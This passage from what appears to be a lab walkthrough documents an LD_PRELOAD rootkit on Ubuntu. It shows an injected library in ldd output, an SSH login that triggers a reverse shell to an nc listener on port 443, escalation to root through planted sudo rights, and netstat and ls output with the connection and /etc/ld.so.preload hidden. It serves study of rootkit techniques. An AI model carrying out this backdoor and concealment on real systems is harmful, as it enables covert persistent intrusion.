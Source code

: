 ```
	/lib/i386-linux-gnu/libc.man.so.6 (0xb7efc000)
	libselinux.so.1 => /lib/i386-linux-gnu/libselinux.so.1 (0xb7ec0000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7d0a000)
	libdl.so.2 => /lib/i386-linux-gnu/libdl.so.2 (0xb7d05000)
	libpcre.so.3 => /lib/i386-linux-gnu/libpcre.so.3 (0xb7c90000)
	/lib/ld-linux.so.2 (0xb7f08000)
	libpthread.so.0 => /lib/i386-linux-gnu/libpthread.so.0 (0xb7c73000)
```
6. Hell yes. It worked. Ours is the second entry. Let's restart syslog and then get a connection. We'll use the trigger for plaintext reverse shell on port 443 on our attacker. 
```
root@ubuntu:/home/manteau# systemctl restart ssh
```
7. Start a listener, and send our trigger.
```
tokyo:~/LearningC/ # nc -lvp 443 -4                                                                                                      Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:443
```
```
tokyo:~/LearningC/ # ssh reverseshell4@192.168.1.192               
reverseshell4@192.168.1.192's password: 
```
```
tokyo:~/LearningC/ # nc -lvp 443                                   
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.1.192.
Ncat: Connection from 192.168.1.192:65065.
```
8. Let's use our sudo privs we left ourselves and escalate to root real quick
```
id
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
sudo su
id
uid=0(root) gid=0(root) groups=0(root)
```
9. Let's check `netstat` for our malicious connection on the victim,
```
root@ubuntu:/home/manteau# netstat -ano | grep -v unix
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
udp        0      0 127.0.1.1:53            0.0.0.0:*                           off (0.00/0/0)
udp        0      0 0.0.0.0:68              0.0.0.0:*                           off (0.00/0/0)
udp        0      0 0.0.0.0:631             0.0.0.0:*                           off (0.00/0/0)
udp        0      0 0.0.0.0:43212           0.0.0.0:*                           off (0.00/0/0)
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           off (0.00/0/0)
udp        0      0 0.0.0.0:33102           0.0.0.0:*                           off (0.00/0/0)
udp6       0      0 :::52795                :::*                                off (0.00/0/0)
udp6       0      0 :::5353                 :::*                                off (0.00/0/0)
raw6       0      0 :::58                   :::*                    7           off (0.00/0/0)
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   Path
```
10. Awesome. Our connection on local port `65065` is not shown. Let's try looking in `/etc` for `/etc/ld.so.preload` which was the file I chose to hide.
```
root@ubuntu:/home/manteau# ls -lah /etc
-----snip-----
-rw-r--r--   1 root root    110 Feb 20  2019 kernel-img.conf
-rw-r--r--   1 root root   1.3K Mar 10  2016 kerneloops.conf
drwxr-xr-x   2 root root   4.0K Sep 22 06:46 ldap
-rw-r--r--   1 root root    88K Oct  1 18:40 ld.so.cache
-rw-r--r--   1 root root     34 Jan 27  2016 ld.so.conf
```
